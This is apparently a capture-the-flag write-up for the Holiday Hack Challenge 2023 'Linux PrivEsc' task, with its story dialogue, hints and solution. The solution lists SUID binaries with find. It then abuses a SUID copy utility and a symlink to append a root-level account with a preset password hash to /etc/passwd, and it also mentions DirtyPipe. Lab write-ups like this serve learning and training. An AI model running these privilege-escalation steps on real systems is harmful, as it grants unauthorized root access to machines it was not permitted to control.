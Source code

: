 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [LinuxPriveEsc](https://hhc23-wetty.holidayhackchallenge.com/socket.io)

## Objective

!!! question "Request"
    Rose Mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?

Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

Whatever. Do you know much about privilege escalation techniques on Linux?

You're asking why? How about I'll tell you why after you help me.

And you might have to use that big brain of yours to get creative, bub.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

This was a really interesting challenge. I believe there are two ways to solve this. An easy way, and a hard way. The hard way is the path I took at first and never got to completion. The Linux kernel that is being used in this challenge is succeptiple to what is known as the "DirtyPipe" vulnerability. That is a specific bug that allows writing to memory pages and forcing the OS to write those changes to disk. I was not able to get this to work, but I believe it is an option in this challenge.<br><br>
I opted for the very simple solution of finding all executables that had the SUID bit set in the file permissions. If this bit is set, and you have permission to execute that file you will essentially be executing that file as the root user.<br><br>
There is a file copy utility "simplecopy" that can be used to edit the /etc/passwd file to add a new user with root permissions.


### Code blocks

```
find / -perm -u=s -type f 2>/dev/null 

files with suid

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```
```
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
/usr/bin/simplecopy source/passwd  destination/passwd
```


## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.

To answer your question of why from earlier... Nunya!

But, I will tell you something better, about some information I... found.

There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.

The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.

That's all I got. K byyeeeee.

Ugh... n00bs...
